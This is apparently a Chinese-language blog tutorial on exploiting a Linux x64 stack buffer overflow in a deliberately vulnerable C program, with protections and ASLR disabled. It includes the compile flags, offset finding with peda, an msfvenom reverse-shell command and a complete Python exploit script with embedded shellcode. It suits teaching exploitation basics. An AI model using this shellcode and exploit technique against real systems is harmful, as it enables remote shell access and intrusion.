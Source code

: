 ```yaml
---
layout: post
title: "[pwn] Linux Simple Stack overflow"
---
```


#### 环境准备 ####

环境： kaili 2017.2 64位

工具： peda

简单的漏洞程序：

    #include <stdio.h>
    #include <string.h>
    
    void my_func(char *buff) {
    	char msg[256];
    	strcpy(msg, buff);
    }
    
    int main(int argc, char *argv[]) {
    	my_func(argv[1]);
    	return 0;   
    }

编译：

	gcc -g -fno-stack-protector -z execstack -o vul stack.c

关闭ASLR

	echo 0 > /proc/sys/kernel/randomize_va_space

通过peda的checksec可以查看我们加载程序启用了那些[安全机制](https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/)。

其他一些安全机制的控制：

- NX：`-z execstack / -z noexecstack` (关闭 / 开启)
- Canary：`-fno-stack-protector /-fstack-protector / -fstack-protector-all` (关闭 / 开启 / 全开启)
- PIE：`-no-pie / -pie` (关闭 / 开启)
- RELRO：`-z norelro / -z lazy / -z now` (关闭 / 部分开启 / 完全开启)

#### 0x00 漏洞原理 ####

由于用户的输入没有做长度控制，导致覆盖了栈上函数调用时的返回地址，在函数调用结束时`ret`指令的调用，控制了EIP从而导致任意指令执行，本次实例关闭了所有的安全机制为理想情况。

熟悉这个漏洞最关键的一点，熟悉栈的内存布局：

<pre>low addr +-->  +-------------------+
               |     .........     |
               +-------------------+
               |                   |
      ^        |                   |
      |        |                   |
      |        |                   |
      |        |                   |
      |        +-------------------+
      |        |      msg[256]     |
      |        +-------------------+
      |        |     saved EBP     |
      |        +-------------------+
      |        |    return addr    |
               +-------------------+ <--- call my_func
               |    arg0=argv[1]   |
               +-------------------+
               |     .........     |
high addr +--> +-------------------+</pre>

在上图中，可以看到进入`my_func`中时本地变量`msg[256]`的位置，在`my_func`函数中会使用不安全的函数`strcpy`，将用户的输入写入本地变量`msg`中，如果数据过长会覆盖`saved EBP`和`return addr`,这样就导致了函数返回地址被劫持，产生漏洞

#### 0x01 漏洞触发和利用 ####

核心思路为：

- 识别到漏洞点
- 找到偏移量
- 找到跳转地址
- shellcode

通过`gdb`加载漏洞程序`vul`,首先查看安全机制的开启情况：

![sov]({{ '/images/201803/sov_1_1.png' | prepend: site.baseurl }})

设置参数开始运行程序,由于我们看到msg本身为256长度的数组，我们设置我们的paylaod长度为300测试看是否能触发漏洞

![sov]({{ '/images/201803/sov_1_2.png' | prepend: site.baseurl }})

发生异常，此时执行的指令为`ret`(会将栈顶的数据放入EIP中)，此时查看`rsp`发现此时栈顶的数据为`0x41414141`

![sov]({{ '/images/201803/sov_1_3.png' | prepend: site.baseurl }})

我们使用`peda`内置的`pattern_create`和`pattern_offset`工具来寻找准确的偏移

![sov]({{ '/images/201803/sov_1_4.png' | prepend: site.baseurl }})
![sov]({{ '/images/201803/sov_1_5.png' | prepend: site.baseurl }})

我们确定了准确的偏移为264， 确定了偏移后我们要找到一个跳转的地址指向我们的payload， 我们这里简化直接通过gdb调试查看栈的地址(我们关闭了各种安全机制，所以这里地址不会变化)，可以发现在strcpy的参数中可以看到位置`0x7fffffffde80`就是`msg`的栈地址

![sov]({{ '/images/201803/sov_1_6.png' | prepend: site.baseurl }})

现在找到了跳转地址，还缺最后的shellcode，我们直接使用`msfvenom`来生成一个反向shell

	msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f python


所有都已经准备好，写一个简单的python脚本来整合我们所有的东西

<pre>#!/usr/bin/python
import struct

# msf reverse shell
shellcode =  ""  
shellcode += "\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
shellcode += "\xef\xff\xff\xff\x48\xbb\xd1\x6b\x1d\x16\x26\x86\x6e"
shellcode += "\xc3\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
shellcode += "\xbb\x42\x45\x8f\x4c\x84\x31\xa9\xd0\x35\x12\x13\x6e"
shellcode += "\x11\x26\x7a\xd3\x6b\x0c\x4a\x59\x86\x6e\xc2\x80\x23"
shellcode += "\x94\xf0\x4c\x96\x34\xa9\xfb\x33\x12\x13\x4c\x85\x30"
shellcode += "\x8b\x2e\xa5\x77\x37\x7e\x89\x6b\xb6\x27\x01\x26\x4e"
shellcode += "\xbf\xce\xd5\xec\xb3\x02\x73\x39\x55\xee\x6e\x90\x99"
shellcode += "\xe2\xfa\x44\x71\xce\xe7\x25\xde\x6e\x1d\x16\x26\x86"
shellcode += "\x6e\xc3"

payload_len = 264 
nop_len = 20
shell_len = len(shellcode)
padding_len = payload_len - nop_len - shell_len
return_addr = struct.pack("<Q", 0x7fffffffde80)

nop = "\x90"*nop_len
padding = "B"*padding_len

print nop + shellcode + padding + return_addr</pre>

所有都准备好后，重新加载我们的payload

	gdb-peda$ r `python exp.py`

另外一个终端，成功接收到shell

![sov]({{ '/images/201803/sov_1_7.png' | prepend: site.baseurl }})

至此入门级别的stack buffoverflow漏洞利用结束

#### 0x02 总结 ####

目前这样的漏洞只能存在实验环境，适合做入门了解，真实的漏洞利用会相当复杂。 

KEEP GOING!!!


参考：

https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/
